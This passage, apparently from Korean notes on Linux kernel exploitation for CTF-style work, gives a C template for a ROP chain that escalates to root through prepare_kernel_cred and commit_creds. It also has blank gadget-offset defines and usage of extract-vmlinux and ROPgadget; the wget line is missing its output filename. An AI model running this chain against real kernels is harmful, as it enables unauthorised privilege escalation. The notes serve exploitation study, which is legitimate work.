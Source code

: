 ## 2-3. ROP

```c
p = (unsigned long *)&buf[0x100];
*p++ = 0xdeadbeef;
*p++ = pop_rdi_ret;
*p++ = 0;
*p++ = prepare_kernel_cred;
*p++ = pop_rcx_ret;
*p++ = 0;
*p++ = mov_rdi_rax_rep_movsq_ret;
*p++ = commit_creds;
*p++ = swapgs_restore_regs_and_return_to_usermode;
*p++ = 0xdeadbeef;
*p++ = 0xcafebebe;
*p++ = (unsigned long)&win;
*p++ = user_cs;
*p++ = user_rflags;
*p++ = user_rsp;
*p++ = user_ss;
```

## 2-4. Consts

```c
#define koffset                                     

#define prepare_kernel_cred                         (kbase + )
#define commit_creds                                (kbase + )
#define swapgs_restore_regs_and_return_to_usermode  (kbase + )

#define pop_rdi_ret                                 (kbase + )
#define pop_rcx_ret                                 (kbase + )
#define mov_rdi_rax_rep_movsq_ret                   (kbase + )
```

# 3. 자주 쓰는 툴

## 3-1. extract-vmlinux
`bzImage`에서 `vmlinux`를 뽑아내기 위해 쓴다. 사용할 수 있는 ROP gadget을 찾는 과정에서 `vmlinux` 파일이 필요하기 때문에 거의 필수이다.

```shell
wget -O https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux
./extract-vmlinux bzImage > vmlinux
```

## 3-2. ROPgadget
ROP 가젯을 찾는 데 있어서 최고의 툴이라고 생각한다. 그러나 커널 이미지는 너무 커서 한 번 찾는 데 시간이 많이 걸리므로 결과를 파일로 저장해 뒀다
필요할 때 `cat`을 통해 찾는 편이 좋다.
```shell
ROPgadget --binary vmlinux > gadgets.txt
cat gadgets.txt | grep ~~~
```
